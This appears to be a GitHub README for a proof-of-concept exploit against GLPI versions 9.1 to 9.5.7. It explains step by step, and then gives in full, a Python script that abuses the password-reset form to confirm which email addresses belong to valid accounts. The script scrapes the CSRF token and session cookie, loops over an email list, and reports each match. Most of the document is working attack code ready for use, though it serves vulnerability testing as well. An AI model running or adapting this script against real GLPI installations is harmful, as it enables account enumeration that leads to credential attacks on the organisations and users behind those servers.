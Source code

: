 <head>
<link rel="stylesheet" type="text/css" href="./style.css">
</head>
- This script is designed to test for a vulnerability in GLPI version 9.1 to 9.5.7 that allows an attacker to enumerate valid usernames via the password reset functionality.
   
  

<u>Step-by-step explanation:</u>

1. First, the script sends a GET request to the password reset page to obtain the CSRF token and session cookie.
     ```py
     response = requests.get('http://127.0.0.1:80/glpi/front/lostpassword.php?lostpassword=1')
     ```
2. Using the BeautifulSoup library, the script parses the HTML response to extract the CSRF token.
    ```py
    soup = BeautifulSoup(response.content, 'html.parser')
    csrf_input = soup.find('input', {'name': lambda n: n and n.startswith ('_glpi_csrf_')})       
    if csrf_input:
    csrf_token = csrf_input['value']
    ```

3. The script then reads a list of email addresses from a text file and loops through them to make a POST request to the password reset page for each email.

    ```py
        with open('emails.txt', 'r') as f:
        email_list = f.readlines()

        for email in email_list:
        email = email.strip()
        data = {"email": email, "update": "Save", "_glpi_csrf_token": csrf_token}
        cookies = {"glpi_f6478bf118ca2449e9e40b198bd46afe": session_cookie_value}
        freq = requests.post(url, headers=headers, cookies=cookies, data=data)

    ```

4. Finally, the script parses the response from each POST request and checks if the message indicates a valid email address was found.
    ``` python
    soup = BeautifulSoup(freq.content, 'html.parser')
    div_center = soup.find('div', {'class': 'center'})
    Result = (f"Email: {email}, Result: {div_center.text.strip()}")
    if "An email has been sent to your email address. The email contains information for reset your password." in Result:
    print ("\033[1;32m Email Found! -> " + Result)     
    ```

# **Code block:**

[Software](https://github.com/glpi-project/glpi/releases/download/9.5.7/glpi-9.5.7.tgz)

```py
# Exploit Title: GLPI 9.5.7 - Username Enumeration
# Date: 04/29/2023
# Author: Rafael B.
# Vendor Homepage: https://glpi-project.org/pt-br/
# Affected Versions: GLPI version 9.1 <= 9.5.7


import requests
from bs4 import BeautifulSoup

# Send a GET request to the page to receive the csrf token and the cookie session
response = requests.get('http://127.0.0.1:80/glpi/front/lostpassword.php?lostpassword=1')

# Parse the HTML using BeautifulSoup
soup = BeautifulSoup(response.content, 'html.parser')

# Find the input element with the CSRF token
csrf_input = soup.find('input', {'name': lambda n: n and n.startswith('_glpi_csrf_')})

# Extract the CSRF token if it exists
if csrf_input:
    csrf_token = csrf_input['value']

# Extract the session cookie
session_cookie_value = None
if response.cookies:
    session_cookie_value = next(iter(response.cookies.values()))
# Set the custom url where the GLPI recover password is located 
url = "http://127.0.0.1:80/glpi/front/lostpassword.php"
headers = {"User-Agent": "Windows NT 10.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1", "Connection": "close", "Referer": "http://127.0.0.1/glpi/front/lostpassword.php?lostpassword=1", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

# Open the email list file and read each line
with open('emails.txt', 'r') as f:
    email_list = f.readlines()

# Loop through the email list and make a POST request for each email
for email in email_list:
    email = email.strip()
    data = {"email": email, "update": "Save", "_glpi_csrf_token": csrf_token}
    cookies = {"glpi_f6478bf118ca2449e9e40b198bd46afe": session_cookie_value}
    freq = requests.post(url, headers=headers, cookies=cookies, data=data)

    # Do a new GET request to get the updated CSRF token and session cookie for the next iteration
    response = requests.get('http://127.0.0.1:80/glpi/front/lostpassword.php?lostpassword=1')
    soup = BeautifulSoup(response.content, 'html.parser')
    csrf_input = soup.find('input', {'name': lambda n: n and n.startswith('_glpi_csrf_')})
    if csrf_input:
        csrf_token = csrf_input['value']
    session_cookie_value = None
    if response.cookies: 
        session_cookie_value = next(iter(response.cookies.values()))

    # Parse the response and grep the match e-mails
    soup = BeautifulSoup(freq.content, 'html.parser')
    div_center = soup.find('div', {'class': 'center'})
    Result = (f"Email: {email}, Result: {div_center.text.strip()}")
    if "An email has been sent to your email address. The email contains information for reset your password." in Result:
        print ("\033[1;32m Email Found! -> " + Result)
            

```